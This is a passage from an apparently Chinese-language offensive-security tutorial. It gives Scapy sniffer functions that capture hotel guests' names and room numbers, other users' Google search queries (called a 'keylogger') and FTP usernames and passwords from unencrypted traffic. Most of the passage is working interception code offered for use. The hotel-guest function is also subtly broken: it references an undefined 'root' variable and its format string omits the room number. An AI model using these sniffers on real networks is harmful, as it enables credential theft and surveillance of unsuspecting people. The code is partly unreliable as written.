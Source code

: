接下来构造正则表达式匹配所有以 `LAST_NAME` 开头，并以 `&` 结尾的字符串，这是宾馆住客房间号的正则表达式。

```python
def find_guest(pkt):
    raw = pkt.sprintf("%Raw.load%")
    name = re.findall("(?i)Last_NAME=(.*)&", raw)
    room = re.findall("(?i)ROOM_NUMBER=(.*)'", raw)
    if name:
        print("[+] Found Hotel Guest {}, Room #".format(name[0], root[0]))
```

### 编写谷歌键盘记录器

在搜索栏里每输入一个字符时，浏览器几乎都会向谷歌发送一个 HTTP GET。

谷歌搜索的 URL 中的参数提供了大量附加信息，这些信息对编写谷歌键盘记录器是相当有用的。

| 参数             | 含义                         |
| -------------- | -------------------------- |
| q=             | 查询的内容，就是在搜索框里输入的内容         |
| pq=            | 上一次查询的内容，即本次搜索前一次的查询内容     |
| hl=            | 语言，默认是 en，可以试试 `xx-hacker` |
| as_epq=        | 查询的精度                      |
| as_filetype=   | 文件格式，用于搜索特定类型的文件，比如 `.zip` |
| as_sitesearch= | 指定要搜索的网站                   |

可以把抓取到的搜索数据实时显示出来

```python
def find_google(pkt):
    if pkt.haslayer(Raw):
        payload = pkt.getlayer(Raw).load
        if "GET" in payload:
            if "google" in payload:
                r = re.findall(r"(?i)\&q=(.*?)\&", payload)
                if r:
                    search = r[0].split("&")[0]
                    search = search.replace("q=", "").replace("+", " ").replace("%20", " ")
                    print("[+] Searched For: {}".format(search))
```

 通过 `sniff` 进行嗅探：`sniff(filter="tcp port 80", prn=find_google)`

### 嗅探 FTP 登陆口令

文件传输协议（FTP）中没有使用加密措施来保护用户的登录密码，通过正则寻找这一信息，同时也会把数据包中的目的 IP 地址提取出来

```python
from scapy.all import *
def ftp_sniff(pkt):
    dest = pkt.getlayer(IP).dst
    raw = pkt.sprintf("%Raw.load%")
    user = re.findall("(?i)USER (.*)", raw)
    pswd = re.findall("(?i)PASS (.*)", raw)
    if user:
        print("[*] Detected FTP Login to {}".format(dest))
        print("[+] User account: {}".format(user[0]))
    elif pswd:
        print("[+] Password: {}".format(pswd[0]))
```
